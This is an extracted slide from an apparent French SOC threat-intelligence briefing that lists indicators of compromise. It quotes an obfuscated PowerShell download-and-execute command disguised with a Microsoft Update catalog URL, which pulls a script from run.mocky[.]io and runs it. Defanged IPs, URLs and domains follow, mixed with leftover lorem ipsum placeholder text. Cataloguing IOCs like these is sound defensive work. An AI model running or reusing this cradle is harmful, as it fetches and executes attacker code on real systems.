

02
# ANALYSE TACTIQUE – phase 3
                 Extraction des IOCs – cluster d’indicateurs (attribution tactique):

powershell $update='windows’;
$url='https://www.catalog.update.microsoft.com/scopedviewinline.aspx?
updateid=a4b6625c-226e-4dbc-baec-1dbd854b8015’;
$command='run';$version='v3';$updateid='3b44f33d-b6e5-4ec6-b120-99b6ac52f74b';$scheme='http://’;
$url=$scheme+$command+'.mocky[.]io/'+$version+'/'+$updateid;
$r=(new-object system.net.webclient).downloadstring($url);powershell $r;&exit
Host-Based

77[.]75.78.125
IPs
Lrenseignement sur les cybermenacesorem Ipsum Dolor Sit
hXXp://run.mocky[.]io/v3/ef4c7798-fc09-42cd-8431-91a22d5728d9
Lorem Ipsum Dolor Sit
Lorem Ipsum Dolor Sit
URLs
hXXp://run.mocky[.]io/v3/3b44f33d-b6e5-4ec6-b120-99b6ac52f74b
hXXp://mockbin[.]org/bin/b8427b58-7497-46cd-a5b2-6ff6a40b4592
mockbin[.]org
Domains
run.mocky[.]io
09;06.2023
SOC Team@oodrive
30